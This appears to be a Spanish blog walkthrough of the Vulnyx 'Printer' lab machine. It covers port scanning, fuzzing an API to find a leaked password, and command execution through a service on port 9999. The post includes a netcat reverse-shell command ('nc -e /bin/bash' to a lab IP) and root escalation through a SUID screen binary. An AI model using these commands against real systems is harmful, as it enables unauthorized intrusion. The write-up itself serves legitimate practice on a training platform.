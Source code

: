 ```yaml
---
layout      : post
title       : "Printer - Vulnyx"
author      : elc4br4
image       : /assets/images/VULNYX/Printer-Vulnyx/Printer.jpg
optimized_image : /assets/images/VULNYX/Printer-Vulnyx/Printer.jpg
category    : [ Vulnyx ]
tags        : [ Linux, Vulnyx ]
description : En esta ocasión vamos a resolver la máquina nivel Easy Printer de la plataforma Vulnyx.
---
```


🎩En esta ocasión vamos a resolver la máquina nivel Easy Printer de la plataforma Vulnyx🎩.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como siempre comenzamos realizando un reconocimiento de puertos abiertos para ver por donde podemos empezar a atacar y ver que tenemos en cada puerto.

Para realizar este reconocimiento usaré la herramienta nmap.

```r
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9999/tcp open  abyss
```

Podemos ver que tenemos los siguientes puertos abiertos, 22 (ssh), 80 (http) y 9999 (abyss).

Pero necesito saber algo más de información sobre estos puertos... por lo que lanzaré de nuevo nmap con otros parámetros para lanzar una serie de scripts de enumeración que me ayuden a obtener más información sobre estos puertos abiertos.

![](/assets/images/VULNYX/Printer-Vulnyx/nmap.png)

Ahora ye podemos ver algo más...

En el puerto 80 tenemos un simple servidor Apache... pero lo más curioso está en el puerto 9999, parece que hay una especie de login... por lo que intento conectarme para ver que hay.

A través de netcat me conecto a este puerto y veo que hay un login, pero se me pide una contraseña que no tengo... por lo que toca buscarla.

![](/assets/images/VULNYX/Printer-Vulnyx/nc1.webp)

Continúo enumerando el puerto 80 (http) donde tenemos un servidor Apache.

Tras acceder no encontré nada útil por lo que decidí fuzzear para buscar rutas dentro del servidor.

Comenzaré usando wfuzz.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz1.webp)

Encuentro la ruta `api` por lo que sigo fuzzeando.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz2.webp)

Accedo a la ruta `api/printers` y encuentro lo siguiente.

> Search for your printer with the following format: printer<id>.<ext>

Tras ver esto ya se que he de hacer, continuar fuzzeando.

Debemos descubrir un número (el id) y su extensión... y para ello usamos de nuevo wfuzz.

Tras probar y probar descubrí que la extensión era .json, por lo que generando un rango de números del 1 a 9999 puedo descubrir el id.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz3.webp)

Y tras ir probando 1 a 1 cada `id` descubro esto.

![](/assets/images/VULNYX/Printer-Vulnyx/json.webp)

Encontramos una contraseña...

> "$3cUr3Pr1nT3RP4ZZw0rD"

# Explotación [#](explotación) {#explotación}

Tras obtener la contraseña pruebo a utilizarla para conectarme al puerto 9999.

![](/assets/images/VULNYX/Printer-Vulnyx/nc2.webp)

Tras acceder ejecuto el comando `?` para que me muestre la ayuda con para ver todos los parámetros que puedo ejecutar y veo que con el comando exec puedo ejecutar comandos en la misma máquina.

```bash
> exec whoami
printer
> exec id
uid=1000(printer) gid=1000(printer) grupos=1000(printer)
```

Por lo que lo aprovecho para introducir una reverse shell en netcat y ganar acceso a la máquina.

```bash
> exec nc -e /bin/bash 192.168.0.32 4444
```

Y gano acceso a la máquina por fin!

![](/assets/images/VULNYX/Printer-Vulnyx/nc3.webp)

Tras acceder ya puedo leer la flag de usuario y proceder al siguiente paso... escalar privielegios.

# Escalada de Privilegios [#](Escalada de Privilegios) {#privesc}

Primero enumero archivos con permisos 4000.

```bash
printer@printer:/var/spool/lpd$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

```bash
printer@printer:/var/spool/lpd$ ls -la /usr/bin/screen
ls -la /usr/bin/screen
-rwsr-xr-x 1 root root 482312 feb 27  2021 /usr/bin/screen
```

Y veo que el binario screen puede servirme para escalar privilegios.

Y es muy sencillo, con screen podemos hacer un attach con el parámetro -x a una sesión o pantalla digamos, que en este caso sería la de root.

De la siguiente forma:

```bash
screen -x root/
```

Y ya nos habremos convertido en root.

![](/assets/images/VULNYX/Printer-Vulnyx/root.webp)



